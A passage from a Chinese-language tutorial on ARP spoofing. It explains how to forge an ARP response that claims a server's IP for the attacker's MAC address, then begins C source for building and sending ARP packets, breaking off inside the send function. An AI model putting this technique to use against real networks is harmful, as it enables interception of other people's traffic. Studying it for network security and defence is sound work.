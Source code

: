   - 目的ip地址：目的端的ip地址；

目的主机收到该报文后会将发送端ip地址和发送端以太网地址缓存下来以供后续通讯使用；

  
这样我们就可以根据上边的信息构造我们的虚假ARP响应了，其中目的地址、目的ip地址填写我们要攻击的主机的信息，而发送端地址和发送端ip地址我们
就要特殊点儿了，正常情况我们是要填充我们自己的主机ip地址和mac地址，但是因为我们是要进行攻击，告诉被攻击端我们拥有服务器的ip，所以这里的
发送端ip地址要填写被攻击者要访问的服务器的ip地址，而发送端的以太网地址我们要填写我们自己（攻击者）的mac地址，这样就能达到ARP欺骗的目的
了，具体代码如下：

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <net/ethernet.h>
#include <netpacket/packet.h>
#include <string.h>
#include <net/if.h>

#define AR_TYPE         0x0806 // ARP帧类型
#define ETHER_TYPE      0x01 // 以太网类型
#define PROTOCOL        0x0800 // 上层协议类型，IP协议
#define OP_REQUEST      0x01 // ARP请求包操作码
#define OP_RESPONSE     0x02 // ARP响应包操作码
#define IP_ADD_LEN      4 // ip地址长度
#define BROADCAST_MAC   { 0xff,0xff,0xff,0xff,0xff,0xff } // 广播mac地址

// 默认广播mac地址
const char broadcast_mac[] =  BROADCAST_MAC;

// arp请求以太网数据
struct arppacket
{
        unsigned char dest_mac[ETH_ALEN];//接收方MAC
        unsigned char src_mac[ETH_ALEN];//发送方MAC
        unsigned short type;         //0x0806是ARP帧的类型值
        unsigned short ar_hrd;//硬件类型 - 以太网类型值0x1
        unsigned short ar_pro;//上层协议类型 - IP协议(0x0800)
        unsigned char  ar_hln;//MAC地址长度
        unsigned char  ar_pln;//IP地址长度
        unsigned short ar_op;//操作码 - 0x1表示ARP请求包,0x2表示应答包
        unsigned char  ar_sha[ETH_ALEN];//发送方mac
        unsigned char ar_sip[IP_ADD_LEN];//发送方ip
        unsigned char ar_tha[ETH_ALEN];//接收方mac
        unsigned char ar_tip[IP_ADD_LEN];//接收方ip
} __attribute__ ((__packed__));

/**
 * @brief 发送指定arp请求，当接收方mac为空或者为{ 0xff,0xff,0xff,0xff,0xff,0xff }时将会认为是发送arp查询请求
 * @param socket_fd create_arp_socket打开的socket
 * @param src_mac 发送方mac，例如{ 0xff,0xff,0xff,0xff,0xff,0xff }，必须是长度为6的数组
 * @param src_ip 发送方ip，例如 "192.168.1.1"
 * @param dest_mac 接收方mac，例如{ 0xff,0xff,0xff,0xff,0xff,0xff }，必须是长度为6的数组，可以传null或者{ 0xff,0xff,0xff,0xff,0xff,0xff }，此时认为是发送arp查询请求；
 * @param dest_ip 接收方ip，例如 "192.168.1.1"
 * @return 返回小于0表示失败
 */
int send_arp(int socket_fd, char src_mac[], char src_ip[], char dest_mac[], char dest_ip[]) {
    if(socket_fd < 0){
        return -1;
    }

    // 定义发送方、接收方地址
```